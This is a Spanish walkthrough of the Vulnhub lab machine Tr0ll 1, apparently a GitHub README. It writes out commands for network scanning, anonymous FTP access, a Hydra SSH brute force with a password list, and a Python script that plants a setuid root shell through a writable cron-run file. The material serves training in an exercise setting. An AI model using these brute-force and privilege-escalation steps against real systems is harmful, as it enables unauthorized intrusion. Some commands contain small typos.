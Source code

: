 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?size=50&color=F7F400&width=200&height=80&lines=TR0LL_1"></a>
</p>

<h1 align="center"></h1>

**[Descargar máquina]:**

Vulnhub: https://www.vulnhub.com/entry/tr0ll-1,100/

</br>

- *Paso 1:* Identificar la IP de la máquina host con NetDiscover. 
```
netdiscover -i wlan0 -r 192.168.1/24
```
![1](https://user-images.githubusercontent.com/75953873/176079905-f35a37e9-416f-45a8-8f7e-3c49899c7252.png)

IP host: `192.168.1.4`

- *Paso 2:* Escanear todos los puertos que estén abiertos con Nmap. 
```
nmap -p- --open -sC -n -vvv 192.168.1.4
```
![2](https://user-images.githubusercontent.com/75953873/176080128-62ec0641-3cfa-479f-8d07-737fc130d1aa.png)

Puertos abiertos: [21,22,80]

- *Paso 3:* Detección de servicios y sistema operativo. 
```
nmap -p 21,22,80 -A 192.168.1.4
```
![3](https://user-images.githubusercontent.com/75953873/176081118-60dbaddd-22c5-48c2-9232-a18565c084e1.png)

Servidor corriendo: **HTTP Apache**

Servicio FTP: permite el inicio se sesión anónimo.

O.S: **Linux**

URL: `http://192.168.1.4`

![4](https://user-images.githubusercontent.com/75953873/176081949-b1bb16cd-4a6f-4c5a-9abf-136aa5cc5c53.png)

- *Paso 4:* Loguearse al servicio FTP. 
```
ftp 192.168.1.4
```
Usuario: `anonymous`

Contraseña: `anonymous`

Copiar el archivo `lol.pcap` hacia el directorio local:
```
get lol.pcap
```
![5](https://user-images.githubusercontent.com/75953873/176082571-6e2485ce-3890-4e4e-a022-40aeebc2310c.png)

- *Paso 5* Examinar captura de paquetes con Wireshark. 
```
wireshark lol.pcap
```
![6](https://user-images.githubusercontent.com/75953873/176084226-03fe75a3-9b3a-459a-96e7-c70f8112f8cc.png)

Aplicar filtro: `(ip.addr eq 10.0.0.6 and ip.addr eq 10.0.0.12) and (tcp.port eq 20 and tcp.port eq 51884)`

Directorio secreto: `sup3rs3cr3tdirlol`

URL completa: `http://192.168.1.4/sup3rs3cr3tdirlol`

![7](https://user-images.githubusercontent.com/75953873/176085343-f3ea1169-da6f-4107-b70e-bf9e439c2010.png)

Descargar archivo: 
```
wget http://192.168.1.4/sup3rs3cr3tdirlol/roflmao
```

Explorar el archivo con Strings:
```
string roflmao
```
![8](https://user-images.githubusercontent.com/75953873/176085855-ffc26116-24d7-4c34-87d4-578fa54dddbb.png)

Directorio secreto: `0x0856BF`

URL completa: `http://192.168.1.4/0x0856BF`

![9](https://user-images.githubusercontent.com/75953873/176086028-06516837-d580-49de-8f15-c045b71909ff.png)

El directorio `good_luck` contiene un fichero txt con una lista de nombres para realizar un ataque de fuerza bruta y conectarse al servicio **SSH**. 

URL completa: `http://192.168.1.4/0x0856BF/good_luck/which_one_lol.txt`
```
wget http://192.168.1.4/0x0856BF/good_luck/which_one_lol.txt && cat which_one_lol.txt
```
![10](https://user-images.githubusercontent.com/75953873/176086596-77994340-98ef-4c9c-8231-5963d17a4c17.png)

- *Paso 6* Ataque de fuerza bruta al servicio SSH con Hydra. 
```
hydra -L which_one_lol.txt -P rockyou.txt 192.168.1.4 ssh
```
![11](https://user-images.githubusercontent.com/75953873/176089030-02ebf4c5-56d9-4a11-89a1-34ab99c0e119.png)

Usuario: `overflow`

Contraseña: `Pass.txt`

Iniciar sesión al servicio SSH:
```
ssh overflow@192.168.1.4
```

- *Paso 7* Filtrar todos los directorios y escalar privilegios root. 
```
find / -writable 2<dev/null
```
![12](https://user-images.githubusercontent.com/75953873/176089628-cc8a60fd-7cd4-4e17-b2bc-1979707d85af.png)

Directorio objetivo: `/lib/log`

Con el editor de Nano hay que remplazar la línea de `rm -r /tmp/` por las siguientes:
```python
#!/usr/bin/env python
import os
import sys
try:
        os.system('cp /bin/sh /tmp/sh ')
        os.system('chmod u+s /tmp/sh')
except:
        sys.exit()

```
![13](https://user-images.githubusercontent.com/75953873/176090801-543a7e6b-0386-466c-99f3-49bbf8daa1f0.png)

Finalmente, ejecutamos `./sh` dentro del directorio `/tmp` y capturamos la flag del directorio `/root`.
```
cd /tmp
./sh
cd /root
cat proof.txt
```
![14](https://user-images.githubusercontent.com/75953873/176091178-9dad75b7-dfc4-484f-88ef-10ae3201ff8f.png)

**FLAG:** 702a8c18d29c6f3ca0d99ef5712bfbdc
